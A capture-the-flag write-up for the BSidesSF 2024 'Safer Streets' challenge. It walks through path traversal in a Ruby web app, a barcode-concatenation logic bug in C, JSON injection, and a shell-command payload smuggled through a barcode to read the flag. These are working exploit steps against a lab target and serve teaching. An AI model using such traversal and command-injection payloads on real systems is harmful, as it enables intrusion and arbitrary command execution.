```yaml
---
title: 'BSidesSF 2024 Writeups: Safer Streets (Web / reversing)'
author: ron
layout: post
categories:
- bsidessf-2024
- ctfs
permalink: "/2024/bsidessf-2024-writeups-safer-streets-web-reversing-"
date: '2024-05-05T12:59:54-07:00'
comments_id: '112486525962825492'

---
```


This is a write-up for [Safer Streets](https://github.com/BSidesSF/ctf-2024-release/tree/main/safer-streets). I apparently wrote this in more "note to self" style, not blog style, so enjoy!

<!--more-->

First, browse the application. You should be able to create an error:

```
$ curl 'http://localhost:8080/display?name=test'
Error in script /app/server.rb: No such file or directory @ rb_sysopen - /app/data/test
```

Note that has a `image/jpeg` content-type, so it might confuse the browser.

That issue grants access to two primitives:

a) Read any file via path traversal

b) The full path to the server

For example:

```bash
$ curl -s 'http://localhost:8080/display?name=../server.rb' | head -n20
require 'json'
require 'sinatra'
require 'pp'
require 'singlogger'
require 'open3'

::SingLogger.set_level_from_string(level: ENV['log_level'] || 'debug')
LOGGER = ::SingLogger.instance()

# Ideally, we set all these in the Dockerfile
set :bind, ENV['HOST'] || '0.0.0.0'
set :port, ENV['PORT'] || '8080'

SAFER_STREETS_PATH = ENV['SAFER_STREETS'] || '/app/safer-streets'

SCRIPT = File.expand_path(__FILE__)

LOGGER.info("Checking for required binaries...")
if File.exist?(SAFER_STREETS_PATH)
  LOGGER.info("* Found `safer-streets` binary: #{ SAFER_STREETS_PATH }")
[...]
```

You can grab the `safer-streets` binary as well:

```bash
$ curl -s 'http://localhost:8080/display?name=../../../app/safer-streets' | file -
/dev/stdin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fa512a55e0fbc8c4ad80483379826183f29ce161, for GNU/Linux 3.2.0, with debug_info, not stripped
```

Inspecting the Ruby code shows an shell-injection issue if you control the output of `safer-streets`:

```bash
system("/usr/bin/report-infraction --node='#{result['node']}' --img='#{photo}'")
```

You can reverse or mess with the binary to discover that it's looking for an image file parameter:

```bash
$ safer-streets upc.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104"
}
```

But it won't work on non-UPC codes. I generated a barcode using [Code128](https://github.com/fhunleth/code128), then tried to decode it:

```bash
$ ./code128png exploit.png 'TEST CODE128'

$ file exploit.png 
exploit.png: PNG image data, 176 x 40, 1-bit grayscale, non-interlaced

$ safer-streets ./exploit.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
Invalid plate type: CODE-128!
```

But the logic is actually faulty; here's the C code:

```c
    zbar_symbol_type_t typ = zbar_symbol_get_type(sym);

    for (; sym; sym = zbar_symbol_next(sym)) {
      // unsigned len         = zbar_symbol_get_data_length(sym);
      if (typ == ZBAR_PARTIAL)
        continue;

      if(strcmp(zbar_get_symbol_name(typ), "EAN-13")) {
        fprintf(stderr, "Invalid plate type: %s!\n", zbar_get_symbol_name(typ));
        exit(1);
      }

      printf("%s", zbar_symbol_get_data(sym));
    }
```

Note that the `typ` check is outside the loop, which means if you have multiple barcodes they'll get concatenated (I hinted at that in one of the preview images by having two UPC codes) (it also needs to be bigger):

```bash
$ mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png

$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104TESTCODE128"
}
```

Using that technique, you can do some JSON injection to add an extra node field:

```bash
$ ./code128png exploit.png 'test", "node": "hi' && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Which will mess up the parsing:

```bash
$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104test","node":"hi"
}
```

With `jq`, note that we can control `"hi"`:

```bash
$ ./safer-streets combined.png  | jq
{
  "node": "hi",
  "speed": "-1",
  "plate": "0123456789104test"
}
```

That, with the shell injection we mentioned above, we can create ourselves a payload:

```bash
./code128png exploit.png "test\", \"node\": \"hi'; /home/ctf/print-flag > /tmp/flag.txt; #" && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Then submit that and grab the flag:

```bash
$ curl -F "photo=@./combined.png" http://localhost:8080/upload
$ curl 'http://localhost:8080/display?name=../../../../tmp/flag.txt'
CTF{show-me-your-best-images}
```
